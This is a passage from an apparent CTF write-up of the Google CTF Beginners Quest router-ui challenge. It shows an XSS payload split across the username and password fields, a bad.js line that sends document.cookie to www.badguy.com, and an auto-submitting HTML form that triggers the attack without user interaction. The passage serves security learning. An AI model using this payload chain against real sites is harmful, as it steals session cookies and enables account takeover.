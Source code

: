 This is what RFC 3986: Uniform Resource Identifier (URI) has to [say](https://tools.ietf.org/html/rfc3986#page-17).

Guess what happens when we put `<script src="https:` into the username value and `www.badguy.com/bad.js"></script>` into the password value?

```
Wrong credentials: <script src="https://www.badguy.com/bad.js"></script>
```

The page at `https://router-ui.web.ctfcompetition.com` responds with the wrong credentials notification, and a `<script>` tag that loads bad JS from the `www.badguy.com` domain.

The file `bad.js` can be simple as this to steal the session cookies registered with `router-ui.web.ctfcompetition.com`.

<div class="filename"><span>bad.js</span></div>
```js
document.location = 'http://www.badguy.com/flag.png?' + document.cookie;
```

Next up, we've to figure out the link to send to Wintermuted such that clicking the link has the same effect as POSTing the username and password as seen above to `https://router-ui.web.ctfcompetition.com/login` and triggering the bad JS, without any user interaction.

This is how it looks like.

<div class="filename"><span>index.html</span></div>
```html
<html>
  <body>
    <form action="https://router-ui.web.ctfcompetition.com/login" method="post">
      <input type="text" name="username" value='<script src="https:'>
      <input type="password" name="password" value='www.badguy.com/bad.js"></script>'>
      <button type="submit">Submit</button>
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

Now that we've set up the stage, it's time to test it out!

![Email](/assets/images/posts/google-ctf-beginners-quest-part-2/4689404d.png)
